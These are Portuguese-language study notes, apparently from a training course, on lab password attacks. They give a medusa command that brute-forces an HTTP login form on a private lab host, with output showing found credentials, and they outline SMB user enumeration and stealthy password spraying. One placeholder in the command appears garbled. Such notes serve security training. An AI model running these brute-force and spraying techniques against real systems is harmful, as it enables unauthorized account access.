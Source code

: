 ## Utilizando o Meduza para simular combinações entre usuários e senhas
https://www.youtube.com/watch?v=Yc5s7T_plao&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Vamos usar a medusa para atacar um servidor web, mais especificamente atazvez de um formulario de login mal contruido vamos explorar para entrar. O formulario revela qual os parametros que o servidor espera receber, assim como o retorno que o servidor entrega.

comando:
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
	-m PAGE: '/alvo/formulario.php' \
	-m FORM:'username=ÛSER^&password=^PASS^&Login=Login' \
	-m 'FAIL=Login faildes' -t 6

[SUCESSO] esse comando ai rodar nossas word list, nos entregando logins validos para o site.



 Resposta:
 2025-10-02 20:44:50 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-02 20:44:50 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: msfadmin [SUCCESS]

~Dica ! Use o comando para descobrir quais os parametros que o formulario pode requisitar~
 ~medusa -M http -q~

## Ataque em cadeia, enumeração smb + password spraying
https://www.youtube.com/watch?v=jVr9gG3nclg&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE


O foco é descobrir um login valido num alvo, e depois fica facil entrar com a senha rs

Seviço SMB, server mensage block, protocolo da microsoft para compartilhar arquivos, pastas e impressoras alem de validar usuarios, eles usam SAMBA para comunicação entre maquinas.  Ele comartilha arquivos dentro de uma rede interna.

(( Vamos usar a implementação Opensource))

 

## Simulando um cenário comum em ambiente corporativo mal configurado

https://www.youtube.com/watch?v=1jZPp-u20FM

Simularemos: Conseguimos acesso fisico a uma rede, e descobrimos um SMB ativo e vamos tentar entrar nele.
tentar ser furtivo.

Usaremos password spraying, onde invertemos a ordem, vamos testar varios usuarios para a mesma senha.

Sistemas de segurança podem detectar caso muitos usuarios inesistentem sejam requisitados e nos bloquear. para começar vamso descobrir usuarios validos, e deposi testar senhas comuns
